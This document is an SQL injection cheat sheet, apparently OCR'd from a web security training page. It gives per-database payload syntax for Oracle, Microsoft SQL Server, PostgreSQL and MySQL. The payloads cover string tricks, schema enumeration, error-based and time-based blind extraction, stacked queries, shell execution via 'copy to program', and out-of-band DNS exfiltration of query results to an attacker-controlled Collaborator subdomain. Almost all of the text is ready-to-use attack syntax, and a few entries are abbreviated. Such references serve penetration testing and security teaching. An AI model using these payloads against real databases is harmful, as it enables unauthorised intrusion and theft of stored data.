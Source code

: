 # SQL Injection Cheat Sheet

This cheat sheet provides examples of useful syntax for performing SQL injection attacks.

---

## String Concatenation

You can concatenate multiple strings to form a single string.

| Database      | Syntax                       |
|---------------|------------------------------|
| Oracle        | `'foo'||'bar'`              |
| Microsoft     | `'foo'+'bar'`               |
| PostgreSQL    | `'foo'||'bar'`              |
| MySQL         | `'foo' 'bar'` *(with space)*<br>`CONCAT('foo','bar')` |

---

## Substring

Extract part of a string from a specified offset and length (1-based indexing).

| Database      | Syntax                         |
|---------------|--------------------------------|
| Oracle        | `SUBSTR('foobar', 4, 2)`      |
| Microsoft     | `SUBSTRING('foobar', 4, 2)`   |
| PostgreSQL    | `SUBSTRING('foobar', 4, 2)`   |
| MySQL         | `SUBSTRING('foobar', 4, 2)`   |

---

## Comments

Use comments to truncate a query and ignore subsequent content.

| Database      | Syntax                        |
|---------------|-------------------------------|
| Oracle        | `--comment`                  |
| Microsoft     | `--comment`<br>`/*comment*/` |
| PostgreSQL    | `--comment`<br>`/*comment*/` |
| MySQL         | `#comment`<br>`-- comment` *(space required)*<br>`/*comment*/` |

---

## Database Version

Query the database type and version.

| Database      | Syntax                                   |
|---------------|------------------------------------------|
| Oracle        | `SELECT banner FROM v$version`<br>`SELECT version FROM v$instance` |
| Microsoft     | `SELECT @@version`                      |
| PostgreSQL    | `SELECT version()`                      |
| MySQL         | `SELECT @@version`                      |

---

## Database Contents

List tables and their columns.

| Database      | Syntax                                                   |
|---------------|----------------------------------------------------------|
| Oracle        | `SELECT * FROM all_tables`<br>`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft     | `SELECT * FROM information_schema.tables`<br>`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL    | `SELECT * FROM information_schema.tables`<br>`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL         | `SELECT * FROM information_schema.tables`<br>`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

---

## Conditional Errors

Test a condition and trigger an error if true.

| Database      | Syntax                                                    |
|---------------|-----------------------------------------------------------|
| Oracle        | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL    | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL         | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

---

## Extracting Data via Error Messages

Elicit error messages to leak sensitive data.

| Database      | Example                                                |
|---------------|--------------------------------------------------------|
| Microsoft     | `SELECT 'foo' WHERE 1 = (SELECT 'secret')`<br>`> Conversion failed when converting the varchar value 'secret' to data type int.` |
| PostgreSQL    | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`<br>`> invalid input syntax for integer: "secret"` |
| MySQL         | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`<br>`> XPATH syntax error: '\secret'` |

---

## Batched (or Stacked) Queries

Execute multiple queries in succession.

| Database      | Syntax                                                   |
|---------------|----------------------------------------------------------|
| Oracle        | Not supported                                            |
| Microsoft     | `QUERY-1-HERE; QUERY-2-HERE`<br>`QUERY-1-HERE QUERY-2-HERE` |
| PostgreSQL    | `QUERY-1-HERE; QUERY-2-HERE`                             |
| MySQL         | `QUERY-1-HERE; QUERY-2-HERE` *(may depend on APIs)*      |

---

## Time Delays

Cause an unconditional time delay of 10 seconds.

| Database      | Syntax                     |
|---------------|----------------------------|
| Oracle        | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft     | `WAITFOR DELAY '0:0:10'`   |
| PostgreSQL    | `SELECT pg_sleep(10)`      |
| MySQL         | `SELECT SLEEP(10)`         |

---

## Conditional Time Delays

Trigger a time delay if a condition is true.

| Database      | Syntax                                              |
|---------------|-----------------------------------------------------|
| Oracle        | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft     | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`   |
| PostgreSQL    | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL         | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`      |

---

## DNS Lookup

Trigger a DNS lookup to an external domain (e.g., Burp Collaborator).

| Database      | Syntax                                                       |
|---------------|--------------------------------------------------------------|
| Oracle        | `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`<br>Or via XXE (if vulnerable). |
| Microsoft     | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`  |
| PostgreSQL    | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL         | `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`<br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` *(Windows only)* |

---

## DNS Lookup with Data Exfiltration

Exfiltrate query results via DNS lookup.

| Database      | Syntax                                                    |
|---------------|-----------------------------------------------------------|
| Oracle        | `SELECT EXTRACTVALUE(xmltype('<?xml ... SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
| Microsoft     | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` |
| PostgreSQL    | See full function in original document.                   |
| MySQL         | `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` *(Windows only)* |

---
